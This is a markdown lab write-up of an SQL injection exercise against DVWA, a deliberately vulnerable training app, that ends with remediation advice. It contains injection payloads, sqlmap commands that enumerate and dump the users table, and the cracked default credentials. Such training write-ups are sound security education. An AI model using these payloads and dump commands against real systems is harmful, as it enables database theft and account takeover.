







# Attack 3 — SQL Injection

## What is it?
SQL Injection tricks the database into revealing data it shouldn't by injecting SQL code into input fields. Instead of searching for a specific user, we manipulate the query to dump the entire database.

---

## Target
- **URL**: http://192.168.100.129/dvwa/vulnerabilities/sqli/
- **Tools**: Manual + SQLMap
- **Security Level**: Low

---

## Steps

### 1. Test normal functionality
Entered a valid user ID to confirm normal behavior:

1

Returned first user's details normally.

### 2. Test for vulnerability
Entered a single quote to break the SQL query:

1'

**Result**: Database error returned — confirms the field is vulnerable to SQL injection.

### 3. Dump all users manually

1' OR '1'='1

**Result**: All 5 users returned instead of just one — SQL logic bypassed successfully.

### 4. Manual UNION injection attempts
Attempted to extract database version manually:

1' UNION SELECT null, version() --
1' UNION SELECT null, @@version --

**Result**: Both returned errors. Moved to SQLMap for automated exploitation.

### 5. SQLMap — enumerate databases
```bash
sqlmap -u "http://192.168.100.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=b33cac4a82d1936319b76746fcf21d7d; security=low" --dbs
```

**Databases found**:
- dvwa
- information_schema

### 6. SQLMap — enumerate tables
```bash
sqlmap -u "http://192.168.100.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=b33cac4a82d1936319b76746fcf21d7d; security=low" -D dvwa --tables
```

**Tables found**:
- access_log
- guestbook
- security_log
- users

### 7. SQLMap — dump users table
```bash
sqlmap -u "http://192.168.100.129/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" --cookie="PHPSESSID=b33cac4a82d1936319b76746fcf21d7d; security=low" -D dvwa -T users --dump
```

**Result**: All user credentials extracted and MD5 hashes cracked:

| Username | Password Hash | Cracked Password |
|---|---|---|
| admin | 5f4dcc3b5aa765d61d8327deb882cf99 | password |
| gordonb | e99a18c428cb38d5f260853678922e03 | abc123 |
| 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | charley |
| pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | letmein |
| smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | password |

---

## Result
Full database compromise achieved. All user credentials extracted and cracked using SQLMap's built-in dictionary attack.

---

## Impact
- All 5 user accounts fully compromised
- MD5 password hashes cracked automatically
- Admin credentials exposed
- Full database structure revealed
- In a real scenario this leads to complete application takeover

---

## Remediation
- Use prepared statements and parameterized queries
- Never concatenate user input into SQL queries
- Implement input validation and sanitization
- Use a Web Application Firewall (WAF)
- Apply principle of least privilege to database users
- Never store passwords as unsalted MD5 hashes — use bcrypt or Argon2

---

## Screenshots

### 1. Normal user lookup


### 2. Single quote error


### 3. All users dumped manually


### 4. SQLMap results (top)


### 5. SQLMap databases found


### 6. SQLMap tables found


### 7. SQLMap users table dumped


---

## Next Attack
[Attack 4 — File Inclusion](../04-File-Inclusion/)
